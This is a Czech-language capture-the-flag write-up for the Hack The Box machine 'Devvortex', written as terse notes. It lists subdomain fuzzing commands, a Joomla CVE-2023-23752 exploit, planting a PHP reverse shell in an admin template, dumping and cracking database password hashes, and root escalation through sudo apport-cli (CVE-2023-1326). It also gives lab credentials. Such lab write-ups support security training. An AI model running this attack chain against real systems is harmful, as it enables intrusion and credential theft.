

# Devvortex

**Reko**\
**-**&#x6E;map = 80, 22\
-gobuster DIR = 


-gobuster VHOST (nefungovalo)

<pre><code><strong>gobuster vhost -u devvortex.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
</strong></code></pre>

-ffuf&#x20;

```
ffuf -u http://devvortex.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host:FUZZ.devvortex.htb" -fs 154
```

-zjištěna doména dev.devvortex.htb -> přidat do /etc/hosts

-znovu **dir gobuster** na danou doménu -> **/administrator**\
\
-joomla version -> /administrator/manifests/files/joomla.xml -> 4.2.6

-CVE na 4.2.8 => bude platit i pro 4.2.6 ([https://github.com/Acceis/exploit-CVE-2023-23752](https://github.com/Acceis/exploit-CVE-2023-23752))

-**pro instlaci věcí k ruby přepnout na root**

**-**&#x65;xploitem získané údaje k administratorovi&#x20;

U: lewis \
P: lewis

-úprava template, vložení PHP reverse shellu (system-template-error.php)\
-netcat listener + curl -s http://dev.devvortex.htb/administrator/templates/atum/login.php (nebo přistoupit napřímo)

**Spuštění mysql v reverse shellu**\
mysql -u lewis -p joomla     (u = username, p = databáze)\
Password: P4ntherg0t1n5r3c0n##

show databases;\
show tables;\
select \* from sd4fg\_users => hash uživatele logan $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12\
\
-cracknuto johnem =>

logan\
tequieromucho

-user flag v home

-sudo-l => /usr/bin/apport-cli (privilage esc?)

CVE = >[https://nvd.nist.gov/vuln/detail/CVE-2023-1326](https://nvd.nist.gov/vuln/detail/CVE-2023-1326)

PoC/Exploit => [https://github.com/canonical/apport/commit/e5f78cc89f1f5888b6a56b785dddcb0364c48ecb](https://github.com/canonical/apport/commit/e5f78cc89f1f5888b6a56b785dddcb0364c48ecb)

-zobrazení .crash souboru => sudo apport-cli /var/crash/XY.crash\
-V (viev report)\
-s vykřičníkem lze provádět commandy, které se provádí jako root (!id, !cat /root/root.txt)
